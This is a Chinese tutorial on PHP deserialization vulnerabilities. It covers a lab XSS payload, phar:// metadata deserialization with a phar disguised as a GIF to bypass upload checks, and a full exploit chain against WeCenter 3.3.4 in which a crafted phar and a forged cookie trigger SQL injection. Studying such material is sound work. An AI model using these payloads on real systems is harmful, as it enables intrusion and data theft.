Web安全 | PHP反序列化入门这一篇就够了
序列化
搞懂反序列化漏洞的前提,先搞懂什么是序列化:
序列化说通俗点就是把一个对象变成可以传输的字符串。
序列化实际是为了传输的方便,以整个对象为单位进行传输, 而序列化一个对象将会保存对象的所有变量，但是不会保存对象的方法，只会保存类的名字。如果了解底层的同学可以知道,类中的方法本就不在类中。
而在php中,使用函数serialize()来返回一个包含字节流的字符串来表示
比如:
class S{
public $test="sd";
}
$s=new S(); //创建一个对象
serialize($s); //把这个对象进行序列化
序列化的结果是:
O:1:"S":1:{s:4:"test";s:2:"sd";}
代表的含义依次是:
O:代表object
1:代表对象名字长度为一个字符
S:对象的名称
1:代表对象里面有一个变量
s:数据类型(string)
4:变量名称的长度
test:变量名称
s:数据类型
2:变量值的长度
sd:变量值
顺便说一下PHP 对不同类型的数据用不同的字母进行标示
a - array
b - boolean
d - double
i - integer
o - common object
r - reference
s - string
C - custom object
O - class
N - null
R - pointer reference
U - unicode string
反序列化
就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。
使用unserialize()函数
$u=unserialize("O:1:"S":1:{s:4:"test";s:2:"sd";}");
echo $u->test; //得到的结果为sd
反序列化安全
序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题
有哪些php常见的魔法函数:
__construct() 当一个对象创建时被调用
__destruct() 当一个对象销毁前被调用
__sleep() 在对象被序列化前被调用
__wakeup 将在反序列化之后立即被调用
__toString 当一个对象被当做字符串使用时被调用
__get(),__set() 当调用或设置一个类及其父类方法中未定义的属性时
__invoke() 调用函数的方式调用一个对象时的回应方法
__call 和 __callStatic前者是调用类不存在的方法时执行，而后者是调用类不存在的静态方式方法时执行。
有面向对象编程基础的同学应该很多都能看懂,比如__contruct()：c++中的构造函数,java中的构造器；__destruct()：c++中的析构函数.java的自动回收机制:finalize()
靶场实战
了解了序列化、反序列化、php魔法函数,先来看一个靶场,尝试反序列化构造payload
payload
看一下题目,已知反序列化入口

先随便输点东西看看

这里既然是反序列化接口,就需要输入我们序列化的字符串,比如插入我们刚刚的payload
O:1:"S":1:{s:4:"test";s:2:"sd";}

不仅于此,构造xss
O:1:"S":1:{s:4:"test";s:28:"<script>alert('sd')</script>";}
漏洞原理分析
先看源码
$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);if ($SELF_PAGE = "unser.php"){$ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');}$PIKA_ROOT_DIR = "../../";include_once $PIKA_ROOT_DIR.'header.php';class S{var $test = "pikachu";function __construct(){echo $this->test;}}$html='';if(isset($_POST['o'])){$s = $_POST['o'];if(!@$unser = unserialize($s)){$html.="<p>大兄弟,来点劲爆点儿的!</p>";}else{$html.="<p>{$unser->test}</p>";}}
漏洞成因:
一.参数可控
从源码可以看到反序列化的变量是post请求的,post请求变量名为o,通过抓包发现我们输入框输入的值,正好赋值给Post变量o

二.实现了unserialize()函数
这一点是肯定的,没有这个函数这里肯定就无法反序列化
三.调用了魔法函数
__construct函数可利用
四.没有过滤
没有对传参进行过滤，否则无法构成目的Payload。
实战中要更具情况来构造payload,能利用的漏洞也远不止xss
phar://伪协议
除了unserialize反序列化之外 ，另一种能够反序列化方式是利用 phar:// 协议触发反序列化,前提是完全可控的文件名。
这个方法是在BlackHat 大会上的 Sam Thomas 分享了 File Operation Induced Unserialization via the “phar://” Stream Wrapper ，该研究员指出该方法在文件系统函数 （ file_get_contents 、 unlink 等）参数可控的情况下，配合 phar://伪协议 ，可以不依赖反序列化函数 unserialize() 直接进行反序列化的操作。
什么是phar
官方文档:
https://www.php.net/manual/zh/book.phar.php
简单来说，phar是PHP提供的一种压缩和归档的方案，并且还提供了各种处理它的方法。
phar结构
由四部分组成:
一:stub
即用来标识phar 文件的部分，类似MZ头。格式为
Phar::mapPhar();include 'phar://phar.phar/index.php';__HALT_COMPILER();?>
二:manifest describing the contents
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分，也存储用户自定义的meta-data，这是用来攻击的入口，最核心的地方

三:the file contents
被压缩文件的内容
四:signature for verifying Phar integrity
可选项，即签名。
demo
根据phar文件结构我们来自己构建一个phar文件，php内置了一个Phar类来处理相关操作。
注意：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件。不要只读

如果修改了之后在phpinfo上还是On的话记得把这行最前面的分号删掉,这样就行了

class TestObject {}@unlink("1.phar");$phar = new Phar("1.phar"); //后缀名必须为phar$phar->startBuffering();$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub$o = new TestObject();$phar->setMetadata($o); //将自定义的meta-data存入manifest$phar->addFromString("test.txt", "test"); //添加要压缩的文件//签名自动计算$phar->stopBuffering();
访问该php页面,会在文件当前目录下生成一个phar文件
很明显的序列化特征，TestObject这个类已经以序列化形式储存

有序列化,必然有反序列化来处理,php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：
fileatime filectime filemtime file_exists file_get_contents file_put_contentsfile filegroup fopen fileinode fileowner filepermsis_dir is_file is_link is_executable is_readable is_writeableis_wirtble parse_ini_file copy unlink stat readfile
将phar文件伪装为gif
phar在设计时,只要求前缀为__HALT_COMPILER();而后缀或者内容并未设限,可以构造文件绕过上传
class TestObject {}@unlink("sd.phar");$phar = new Phar("sd.phar");$phar->startBuffering();$phar->setStub("GIF89a","<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头$o = new TestObject();$o->data='sd!';$phar->setMetadata($o); //将自定义meta-data存入manifest$phar->addFromString("test.txt", "test"); //添加要压缩的文件//签名自动计算$phar->stopBuffering();


include('phar://sd.gif');class TestObject {function __destruct(){echo $this->data;}}

成功将meta-data中data数据反序列化出来
总结
利用条件:
phar文件要能够上传到服务器端。
要有可用的魔术方法作为“跳板”。
文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
WeCenter3.3.4反序列化造成sql注入
这个洞有点老了,但不影响学习分析
cms下载地址:
http://www.wecenter.com/downloads/
在这个版本的cms中存在多个反序列化POP链，如果我们想利用这些 POP 链，就必须找到可控的反序列化点。WeCenter 中就存在可控的文件名,能够利用phar伪协议
定位到漏洞文件./system/aws_model.inc.php

析构函数遍历了$this->_shutdown_query变量，然后带入了$this->query()函数，跟一下
public function query($sql, $limit = null, $offset = null, $where = null){$this->slave();if (!$sql){throw new Exception('Query was empty.');}if ($where){$sql .= ' WHERE ' . $where;}if ($limit){$sql .= ' LIMIT ' . $limit;}if ($offset){$sql .= ' OFFSET ' . $offset;}if (AWS_APP::config()->get('system')->debug){$start_time = microtime(TRUE);}try {$result = $this->db()->query($sql);} catch (Exception $e) {show_error("Database error\n------\n\nSQL: {$sql}\n\nError Message: " . $e->getMessage(), $e->getMessage());}if (AWS_APP::config()->get('system')->debug){AWS_APP::debug_log('database', (microtime(TRUE) - $start_time), $sql);}return $result;}
并没有任何的过滤,如果$this->_shutdown_query变量参数可控,那么就可以造成sql注入
利用反序列化的方式，可以重置$this->_shutdown_query的值。
再看./models/account.php
public function associate_remote_avatar($uid, $headimgurl){if (!$headimgurl){return false;}if (!$user_info = $this->get_user_info_by_uid($uid)){return false;}if ($user_info['avatar_file']){return false;}if (!$avatar_stream = file_get_contents($headimgurl)){return false;}$avatar_location = get_setting('upload_dir') . '/avatar/' . $this->get_avatar($uid, '');$avatar_dir = dirname($avatar_location) . '/';if (!file_exists($avatar_dir)){make_dir($avatar_dir);}
associate_remote_avatar函数将传进来的$headimgurl没有经过任何过滤直接传入了文件操作函数file_get_contents中，这个系统函数正好就在受影响的范围之内。全局搜索associate_remote_avatar
在./app/account/ajax.php

这个函数调用了associate_remote_avatar,而 $headimgurl 值来源于 $wxuser['headimgurl']，这个$wxuser实际上是数据库users_weixin 表中的相关数据，如果有insert,update就好了
在./models/openid/weixin/weixin.php


找到了数据库users_weixin 表,headimgurl 对应 $access_user['headimgurl']，并且$access_user 为函数被调用时传入的参数，继续找哪里调用了bind_account 方法
在./app/m/weixin.php

$WXConnect的值来源于COOKIE，而$access_user来源于$WXConnect['access_user']，而cookile是可控的,file_get_contents有了完全可控的参数,我们就可以利用 phar:// 协议触发反序列化
漏洞利用
注册一个账号

选择发起一个问题,并上传一个图片

上传一个phar文件,但改后缀为gif
class AWS_MODEL{private $_shutdown_query = array();public function __construct(){$this->_shutdown_query['test'] = "SELECT UPDATEXML(1, concat(0xa, user(), 0xa), 1)";}}$a = new AWS_MODEL;$phar = new Phar("11.phar");$phar->startBuffering();$phar->setStub("GIF89a"."__HALT_COMPILER();");$phar->setMetadata($a);$phar->addFromString("test.txt","123");$phar->stopBuffering();

上传到服务器

这里会返回绝对路径

编造payload
$arr = array();$arr['access_token'] = array('openid' => '1');$arr['access_user'] = array();$arr['access_user']['openid'] = 1;$arr['access_user']['nickname'] = 'admin';$arr['access_user']['headimgurl'] = 'phar://uploads/question/20210606/ca6820646810c27e025258594bb905ea.gif';echo json_encode($arr);?>

带入cookie,并访问app/m/weixin.php下的binding_action,显示"绑定微信成功"

最后访问app/account/ajax.php下的synch_img_action,注入成功

参考
WeCenter3.3.4前台SQL注入&任意文件删除&RCE
某Center v3.3.4 从前台反序列化任意SQL语句执行到前台RCE
利用 phar 拓展 php 反序列化漏洞攻击面

推荐阅读：
本月报名可以参加抽奖送暗夜精灵6Pro笔记本电脑的优惠活动

点赞，转发，在看
